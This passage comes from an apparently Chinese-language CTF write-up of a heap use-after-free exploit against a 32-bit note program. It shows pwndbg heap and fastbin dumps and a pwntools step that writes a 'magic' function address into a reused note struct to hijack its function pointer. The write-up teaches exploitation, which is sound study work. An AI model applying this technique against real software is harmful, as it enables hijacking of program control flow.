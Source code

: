 ```
0x10: 0x804b028 —▸ 0x804b000 ◂— 0x0
0x18: 0x804b038 —▸ 0x804b010 ◂— 0x0  //第一次申请的内容大小还是有原因的，只要不与note_struct申请的chunk大小相同即可
0x20: 0x0
0x28: 0x0
0x30: 0x0
0x38: 0x0
0x40: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty

pwndbg> x /16wx 0x804b000    //释放后里面的chunk内容没有发生改变
0x804b000:	0x00000000	0x00000011	0x00000000	0x0804b018
0x804b010:	0x00000000	0x00000019	0x00000000	0x0000000a
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000011
0x804b030:	0x0804b000	0x0804b040	0x00000000	0x00000019
```

第三步：申请大小为8字节的note2

```
add_note(8, p32(magic_addr))#note2
```

因为真实大小为8字节，所以会从0x10的fastbins分配chunk，正好这些chunk是之前存储note0_struct和note1_struct的chunk

```
pwndbg> x /4wx 0x0804A070     notelist
0x804a070 <notelist>:	0x0804b008	0x0804b030	0x0804b030//note2_struct_ptr	0x00000000

pwndbg> heap
Allocated chunk | PREV_INUSE   //note2_content,且往内容里面写入了magic地址        
Addr: 0x804b000
Size: 0x11

Free chunk (fastbins) | PREV_INUSE
Addr: 0x804b010
Size: 0x19
fd: 0x00

Allocated chunk | PREV_INUSE  //因为之前此chunk后加入fastbins，故先分配它给note2_struct
Addr: 0x804b028
Size: 0x11

Free chunk (fastbins) | PREV_INUSE
Addr: 0x804b038
Size: 0x19
fd: 0x804b010

Top chunk | PREV_INUSE
Addr: 0x804b050
Size: 0x20fb1

pwndbg> bins      //剩下的bins
fastbins
0x10: 0x0
0x18: 0x804b038 —▸ 0x804b010 ◂— 0x0
0x20: 0x0
0x28: 0x0
0x30: 0x0
0x38: 0x0
0x40: 0x0
```